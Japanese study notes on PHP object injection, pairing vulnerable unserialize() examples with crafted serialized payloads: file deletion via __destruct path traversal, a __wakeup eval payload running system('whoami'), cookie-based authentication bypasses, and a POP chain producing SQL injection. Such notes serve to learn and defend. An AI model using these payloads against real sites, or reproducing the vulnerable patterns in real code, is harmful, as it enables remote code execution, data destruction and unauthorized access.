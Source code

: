 # Unserialize
## Serializeの基本
```php
<?php
class Example1{
    public $cache_file;
}
class Example2{
    public $cache_file;
    public $array = array("key" => 100);
}

$ex1 = new Example1();
echo serialize($ex1)."\n";  // O:8:"Example1":1:{s:10:"cache_file";N;}
$ex1->cache_file = "index.php";
echo serialize($ex1)."\n";  // O:8:"Example1":1:{s:10:"cache_file";s:9:"index.php";}

$ex2 = new Example2();
echo serialize($ex2)."\n";  // O:8:"Example2":2:{s:10:"cache_file";N;s:5:"array";a:1:{s:3:"key";i:100;}}

// O:8:"Example2":2:{s:10:"cache_file";N;s:5:"array";a:1:{s:3:"key";i:100;}}
// Oは「”Example2”というObjectをシリアル化している」の意味
// 8は”Example2”の文字数
// 2は「フィールドが二つある」の意味
// sはStringの意味？
// 10は"cache_file"の文字数
// Nは値がセットされていないという意味。{変数名;値}でワンセットっぽい
// 最後の"i:100;"はint型の値100という意味
?>
```
## __destruct
```php
class Example1
{
   public $cache_file;

   function __construct(){
      // some PHP code...
   }
   // インスタンス削除時にデストラクタを実行して$cache_fileを削除する
   function __destruct(){
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}

// some PHP code...

// GETメソッドの?data=以降の値をデシリアライズする
$user_data = unserialize($_GET['data']);

// some PHP code..
```
以下で、Example1クラスのオブジェクトとして復元して、Example1クラスのインスタンスを`$user_data`に代入するので、`$user_data`インスタンスが削除されるときに`../../index.php`が削除されてしまう！   
```txt
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```
## __wakeup

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        // このクラスをunserializeするときに__wakeup()を実行する
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);  // こんなことする場合ってあるのか？？
            }
        }
    }
    // $_REQUEST['r']はGETとPOSTとCOOKIEを合わせた連想配列。$_GET['r']とかと同じ
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```
GETのデータとかCookieのデータとかで`system("whoami")`を実行する。   
```txt
?r=O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}
Cookie: r=O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A17%3A%22system%28%27whoami%27%29%3B%22%3B%7D
```
## AuthBypass TypeJuggling
```php
// 一見、どう見ても安全に見えるが実はがちがちに脆弱。ヤバすぎてワロタ
data = unserialize($_COOKIE['auth']);

// "=="で比較しているため、TypeJugglingにより、 true(boolean) == "admin"(string) はTrueとなるので危険！
if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```
以下でAuthBypassのためのPayloadを作成。   
```php
<?php
$data = array("username" => true, "password" => true);
echo serialize($data)."\n"; // a:2:{s:8:"username";b:1;s:8:"password";b:1;}

// "username"のValueの値をBooleanのTrueにするとTypeJugglingによりAuthBypassできる！
echo gettype(true == "admin")." : ".(true == "admin")."\n";  // boolean : 1
echo gettype(true === "admin")." : ".(true === "admin")."\n"; // boolean : 
?>
```
作成した`a:2:{s:8:"username";b:1;s:8:"password";b:1;}`をURL encodeしてCookieにセットすればBypassできる！   
```txt
Cookie: auth=a%3A2%3A%7Bs%3A8%3A%22username%22%3Bb%3A1%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D
```
## AuthBypass ObjectReference
```php
<?php
class Object1{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```
以下で`$secretCode`と`$code`が同じ値を指すように参照代入したシリアライズデータを作成する。   
```php
<?php
class Object1{
    public $secretCode = "a";
    public $code;
    //public $code = &$secretCode;  // ここでやろうとするとerror。コンストラクタ内でやらないとだめらしい
    public function __construct(){
        // リファレンス(参照)代入。これで$secretCodeと$codeが同じ値を指すようになった！
        $this->code = &$this->secretCode;
    }
}
$obj1 = new Object1();
echo serialize($obj1);  // O:7:"Object1":2:{s:10:"secretCode";s:1:"a";s:4:"code";R:2;}
?>
```
以下で認証を突破できる！   
```txt
?input=O:7:"Object1":2:{s:10:"secretCode";s:1:"a";s:4:"code";R:2;}
```
## POP chain (SQL Injection)
```php
<?php
class Example3{
   protected $obj;

   function __construct(){
      // some PHP code...
   }
   // Exampleクラスのインスタンスが文字列として呼びだされたときに__toString()を実行
   function __toString(){
      if (isset($this->obj)) {
          // $this->objはインスタンスであるとして、そのインスタンスのgetValueメソッドを実行
          return $this->obj->getValue();
      }else{
          return "__toString else";
      }
   }
}

class SQL_Row_Value
{
   private $_table;
   private $id;

   // some PHP code...
   // getValue($id)とすると上の__toString内では引数無しで呼び出してるからエラーになる
   function getValue()
   {
      $sql = "SELECT * FROM {$this->_table} WHERE id = ".(int)$this->id;
      return $sql;
   }
}

// これをデシリアライズすればSQLインジェクションができる！
$user_data = unserialize('O:8:"Example3":1:{s:3:"obj";O:13:"SQL_Row_Value":2:{s:6:"_table";s:10:"users -- -";s:2:"id";i:2;}}');
echo $user_data;

// 実際に実行されるSQLクエリ
// SELECT * FROM users -- - WHERE id = 2
?>
```
以下でPayloadを作成するが、細部がうまいこといってないので手動で修正する。   
```php
<?php
class SQL_Row_Value{
   private $_table ="users -- -";
}

class Example3{
   protected $obj;

   function __construct()   {
      $this->obj = new SQL_Row_Value;
   }
}

print (serialize(new Example3));

// O:8:"Example3":1:{s:6:" * obj";O:13:"SQL_Row_Value":1:{s:21:"SQL_Row_Value_table";s:10:"users -- -";}}
?>
```
# 参考
https://securitycafe.ro/2015/01/05/understanding-php-object-injection/   
基本的な説明。わかりやすい。   
https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/   
具体例がたくさん。よさげ。   

